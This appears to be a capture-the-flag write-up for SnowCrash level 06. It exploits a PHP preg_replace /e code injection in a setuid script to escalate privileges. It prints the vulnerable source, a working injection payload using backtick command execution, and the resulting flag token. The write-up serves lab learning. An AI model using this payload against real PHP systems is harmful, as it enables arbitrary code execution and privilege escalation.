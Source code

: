 # Level 06

## Vulnerability
Privilege escalation - PHP code injection
Deprecated /e regex modifier in script owned by privileged user

## Context
```
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## Solution
The binary ```level06``` is executed as user flag06, thanks to the suid bit. We should be able to exploit this to run getflag for us. Lets look at the .php file to investigate how.
```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
We find preg_replace() used with the /e modifier. The [official doc](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) tells us this modifier is depecrated because it introduces a vulnerability:
> If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string.

> Caution: Use of this modifier is discouraged, as it introduces remote code execution vulnerabilities. An attacker can execute arbitrary PHP code and gain access to the server.

So using the correct php syntax.
```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /dev/shm/getflag
level06@SnowCrash:~$ ./level06 /dev/shm/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
